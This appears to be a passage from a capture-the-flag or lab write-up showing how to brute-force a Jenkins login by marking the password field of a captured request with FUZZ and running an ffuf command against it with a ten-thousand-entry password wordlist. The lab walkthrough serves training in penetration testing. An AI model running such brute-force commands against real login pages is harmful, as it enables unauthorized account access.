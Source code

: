 

**Replace the password with `FUZZ`**

![](./assets/15.png)

<br /><br />

**Bruteforce the password with ffuf**

```bash
root@ip-10-10-228-42:~/Desktop# ffuf -request jenkins_req -request-proto http -w /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt -r  -fs 901,0
```

-r to follow redirection.

-fs to filter HTTP response size.

![](./assets/15.2.png)
